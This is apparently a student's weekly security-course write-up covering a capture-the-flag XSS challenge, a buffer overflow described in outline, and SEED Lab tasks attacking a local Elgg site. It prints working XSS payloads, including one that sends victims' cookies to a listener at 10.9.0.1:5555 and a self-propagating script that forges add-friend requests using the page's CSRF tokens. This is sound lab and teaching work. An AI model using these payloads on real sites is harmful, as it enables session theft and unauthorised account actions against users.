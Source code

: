 # Work performed during the week #10

## CTF

### Goal

- The objective is to attack the web application with a Cross-Site Scripting (XSS), in order to allow the administrator to provide a flag.

### Challenge 1

- The admin visit the page with our justification and mark the request as not accepted by clicking on button "Mark request as read" or accepted on button "Give the flag".

- The justification has a vulnerability that allows us to input a script that the web app will run, so we input ``<script>document.getElementById('giveflag').click();</script>``.

- This way the button "Give the flag" is clicked when the admin visit the page accepting the request to give the flag.

### Challenge 2

- We started by analysing the program using ``checksec``. After this, we looked through the program's code in search of a vulnerability.
- We discovered that it was using ``gets`` to read the input and was storing in the variable ``buffer[100]``. This presented the opportunity to try a buffer overflow attack.
- Using athe fundamentals behind a buffer overflow attack and some scripts from previous ctfs, we managed to inject our shellcode into the program and open a shell.
 

## SeedLab

### Task 1

- For the task 1, we choose to login with the user Alice. After we logged in we went to edit profile and in the input for brief discreption we add the script ``<script>alert('XSS');</script>``.

- This way, every time the brief discreption field is asked for a web page, it will execute the alert we inserted. This justifies why even in the list of users the alert is triggered. Because this list not only the users, but the brief discreption of each user.

### Task 2

- Still using user Alice, we went to edit profile and in the input for brief discreption we add another script. Instead of the script ``<script>alert('XSS');</script>`` we use the script ``<script>alert(document.cookie);</script>``, so we can now print the cookies.

- The result of the alert is ``pvisitor=a6b4dccd-99d9-4a92-a50a-9a850b3592ab; Elgg=i0mr1o4tlhlimds4ncd0da5nb7``.

### Task 3

- In this task, instead of only the user can see the cookies, we want to send an HTTP request with the cookies appended to the request in order so see them.
- In order to do that we user a script that do that, `` <script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script> ``.
- This sript inserts the img tag, the browser tries to load the image from the URL in the src field, this results in an HTTP GET request sent to our machine, with the cookies to the port 5555 of our machine (with IP address 10.9.0.1).
- We use the program ``nc -lknv 5555``, to have a TCP server that listens for a connection on the specified port (5555).
- This program will print out the HTTP request with the cookies of the client.

### Task 4

- In this task, we will use a script that adds Samy as a friend to any other user that visits Samy’s page.
- First we find out how a legitimate user adds a friend in Elgg.
- We use Firefox’s ``HTTP inspection tool`` to help us get what are sent to the server when a user adds a friend.
- Inspectioning the contents of the HTTP GET request that was sent when the add friend button was clicked, we identify all the parameters in the request.
- Finding that the data is attached to the URL ``http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1642154629&__elgg_token=cjBSuLpxRMRNZH0Uoq_zug&__elgg_ts=1642154629&__elgg_token=cjBSuLpxRMRNZH0Uoq_zug``.
- The parameters are placed after the URL by``?`` and separated by ``&``, that parameters being, first ``friend=59`` and the variables ``__elgg_ts``, ``__elgg_token``. 
- The script create a GET request to the URL ``http://www.seed-server.com/action/friends/add`` with the parameters ``friend=59``, ``'__elgg_ts='+elgg.security.token.__elgg_ts;``, ``'__elgg_token='+elgg.security.token.__elgg_token;``.

```
<script type='text/javascript'> 
    window.onload = function () {
        var Ajax=null;
        var ts='&__elgg_ts='+elgg.security.token.__elgg_ts; ➀
        var token='&__elgg_token='+elgg.security.token.__elgg_token; ➁
        var sendurl='http://www.seed-server.com/action/friends/add?friend=59'+ts+token;
        Ajax=new XMLHttpRequest();
        Ajax.open('GET', sendurl, true);
        Ajax.send();
    }
</script>
```
- Sending out the same HTTP request as add-friend HTTP request.
- We placed the script in the ``About Me`` field of Samy’s profile page, after we clicking on option ``Edit HTML`` to enable Text mode.
- Now any other user that visits Samy’s page, will add Samy as a friend.

- Question 1:
The Lines ➀ and ➁, are needed for getting the values of the __elgg_ts and __elgg_token parameters, because they change every time a page is loaded so they need to be accessed dynamically in order to get the correct values.
- Question 2:
If the Elgg application only provided the Editor mode for the ``About me`` field, the attack would not be successful because the The Editor mode adds extra HTML code to the text typed into the field and we do not want any extra code added to our script in order to work.






